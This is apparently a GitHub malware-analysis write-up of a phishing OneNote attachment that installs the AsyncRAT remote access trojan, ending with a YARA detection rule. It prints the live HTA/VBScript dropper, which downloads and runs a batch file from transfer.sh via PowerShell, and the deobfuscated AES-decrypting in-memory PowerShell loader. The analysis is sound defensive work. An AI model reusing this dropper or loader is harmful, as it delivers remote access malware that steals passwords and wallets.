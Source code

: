 # Malicious-OneNote-AsyncRAT-Analysis

Security Researchers discovered that Threat actors now using OneNote attachments in phishing emails that infect victims with remote access malware which can be used to install further malware, steal passwords, or even cryptocurrency wallets.

## Malware Sample

> **MD5:** af9e5a25e7ce6b5cdfbb8ebbede5de0c

> **SHA256:** 15212428deeeabcd5b11a1b8383c654476a3ea1b19b804e4aca606fac285387f

## Basic Static Analysis

- Attackers sending OneNote file as an attachment using email and using simple trick to hide suspicious script. 

- The suspicious VBS macro linked to the "Click to view document" PNG picture is just behind this picture.  

- Once User clicked on view document  VBS macro will execute.

![image](https://user-images.githubusercontent.com/43460691/216254324-951b4861-e580-4d77-901c-fcd8cbf620c5.png)

## Dump OneNote File content 

- There is an awesome tool created by Didier Stevens to dump content from the OneNote file. Check the below output. OneNote file containing two PNG and one HTA file.

- Steam number 2 holds the HTA script (starting with "<!").

> ***`REMnux: python3 onedump.py "file name"`***

![image](https://user-images.githubusercontent.com/43460691/216254734-737826fe-afc8-4f3e-a4e6-6f2808bae465.png)

- Below are the dumped files, Where "Click to view document" image used to trick user and execute script.

![image](https://user-images.githubusercontent.com/43460691/216254817-9180ca56-1b3f-42eb-8ad1-903b4f1e38c8.png)


- If you look into below HTA file  we can see first ExecuteCmdAsync invoke WebRequest -Uri and downloading **notes_to_do_list.one** file and writing on disk as invoice.one which is simple note and not malicious.

- The second  ExecuteCmdAsync  downloading sky.bat file and writing on disk in tmp folder as system32.bat and execute.

![image](https://user-images.githubusercontent.com/43460691/216255016-54797b05-27ba-493d-8e14-b21d702ee5a7.png)

## Strings Check

- HTA file is not obfuscated and we can see HTA file in Strings output as well.

> ***`REMnux: strings "file name"`***

```
remnux@remnux:~/Downloads$ strings Invoice.one 
<html>
<head>
<HTA:APPLICATION icon="#" WINDOWSTATE="normal" SHOWINTASKBAR="no" SYSMENU="no"  CAPTION="no" BORDER="none" SCROLL="no" />
<script type="text/vbscript">
' Exec process using WMI
Function WmiExec(cmdLine ) 
    Dim objConfig 
    Dim objProcess 
    Set objWMIService = GetObject("winmgmts:\\.\root\cimv2")
    Set objStartup = objWMIService.Get("Win32_ProcessStartup")
    Set objConfig = objStartup.SpawnInstance_
    objConfig.ShowWindow = 0
    Set objProcess = GetObject("winmgmts:\\.\root\cimv2:Win32_Process")
    WmiExec = dukpatek(objProcess, objConfig, cmdLine)
End Function
Private Function dukpatek(myObjP , myObjC , myCmdL ) 
    Dim procId 
    dukpatek = myObjP.Create(myCmdL, Null, myObjC, procId)
End Function
Sub AutoOpen()
    ExecuteCmdAsync "cmd /c powershell Invoke-WebRequest -Uri https://www.onenotegem.com/uploads/soft/one-templates/notes_to_do_list.one -OutFile $env:tmp\invoice.one; Start-Process -Filepath $env:tmp\invoice.one"
	    ExecuteCmdAsync "cmd /c powershell Invoke-WebRequest -Uri https://transfer.sh/get/5dLEvB/sky.bat -OutFile $env:tmp\system32.bat; Start-Process -Filepath $env:tmp\system32.bat"
End Sub
' Exec process using WScript.Shell (asynchronous)
Sub WscriptExec(cmdLine )
    CreateObject("WScript.Shell").Run cmdLine, 0
End Sub
Sub ExecuteCmdAsync(targetPath )
    On Error Resume Next
    Err.Clear
    wimResult = WmiExec(targetPath)
    If Err.Number <> 0 Or wimResult <> 0 Then
        Err.Clear
        WscriptExec targetPath
    End If
    On Error Goto 0
End Sub
window.resizeTo 0,0
AutoOpen
remnux@remnux:~/Downloads$ 
```

## Second Stage Payload 

- System32.bat file is obfuscated, Lot of environment variables are created and concatenated to build commands. If it's difficult to read, it's easy to deobfuscate. 

- Just add a "echo" at the beginning of all lines at the bottom of the file and execute it or you can use Procmon tool to PowerShell executed command.

![image](https://user-images.githubusercontent.com/43460691/216255585-757086c3-90c7-40c2-88ed-97b47c3df79d.png)

- Capture the process ecexution using Procmon, If you open the process start operation you can see the deobfuscated command.

![image](https://user-images.githubusercontent.com/43460691/216359119-9be8ed37-8a16-4924-8dcc-ae34e2c52d8a.png)


- This script is a dropper. You can see base64 encoded payload is located in the file and read by PowerShell. Payload is identified by lines starting with **":: ".** 

```
"system32.bat.exe" -noprofile -windowstyle hidden -ep bypass -command $eIfqq = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')('C:\Users\admin\AppData\Local\Temp\system32.bat').Split([Environment]::NewLine)
foreach ($YiLGW in $eIfqq) 
{ 
  if ($YiLGW.StartsWith(':: ')) 
     { 
	    $VuGcO = $YiLGW.Substring(3)
        break
     }
}
$uZOcm = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($VuGcO)
$BacUA = New-Object System.Security.Cryptography.AesManaged
$BacUA.Mode = [System.Security.Cryptography.CipherMode]::CBC
$BacUA.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7

$BacUA.Key = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('CeRsc6tTBkD+M0zxU7egGVErAsa/NtkVIHXeHDUiW20=')
$BacUA.IV = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('2hn/J717js1MwdbbqMn7Lw==')

$Nlgap = $BacUA.CreateDecryptor()
$uZOcm = $Nlgap.TransformFinalBlock($uZOcm, 0, $uZOcm.Length)
$Nlgap.Dispose()
$BacUA.Dispose()
$mNKMr = New-Object System.IO.MemoryStream(, $uZOcm)
$bTMLk = New-Object System.IO.MemoryStream
$NVPbn = New-Object System.IO.Compression.GZipStream($mNKMr, [IO.Compression.CompressionMode]::Decompress)
$NVPbn.CopyTo($bTMLk)
$NVPbn.Dispose()
$mNKMr.Dispose()
$bTMLk.Dispose()
$uZOcm = $bTMLk.ToArray()
$gDBNO = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')($uZOcm)
$PtfdQ = $gDBNO.EntryPoint
$PtfdQ.Invoke($null, (, [string[]] ('')))
![image](https://user-images.githubusercontent.com/43460691/216255789-c6e19f63-9991-4a34-b805-3de608cc2353.png)
```

## Payload Extraction 

- The payload is AES encrypted, you can see AES keys in deobfuscated script. We will use these keys to decrypt payload.

![image](https://user-images.githubusercontent.com/43460691/216255929-d279b878-b913-498a-a7e7-cfdaed87335a.png)


![image](https://user-images.githubusercontent.com/43460691/216255962-7725f621-9a49-4b2e-94eb-8fb784d93142.png)

- The decrypted PE file is an ASyncRAT. Check the below file hash.

> **SHA256:** f8b823dc5519d25ef2599725c25306171a8496069b1ba56cb854323ae98d10d1

![image](https://user-images.githubusercontent.com/43460691/216351747-ae3a9ad8-3518-462d-887b-86fe524c28fa.png)


## YARA Rule

```
rule malicious_onenote {
    meta:
        description = "Detects malicious onenote files"

    strings:
        $hta = "hta:application" nocase
        $hta_script = "type=\"text/vbscript\""
        $hta_open = "autoopen" nocase

    condition:
        uint32be(0x0) == 0xE4525C7B
        and 2 of them
}
```
- You can find detailed Yara rule on YARAify website.

  https://yaraify.abuse.ch/yarahub/rule/MALWARE_OneNote_Delivery_Jan23/


## References :

- https://www.bleepingcomputer.com/news/security/hackers-now-use-microsoft-onenote-attachments-to-spread-malware/

- https://fourcore.io/blogs/hackers-using-microsoft-onenote-attachments-to-spread-malware

- https://blog.didierstevens.com/2023/01/22/new-tool-onedump-py/

- https://gchq.github.io/CyberChef/









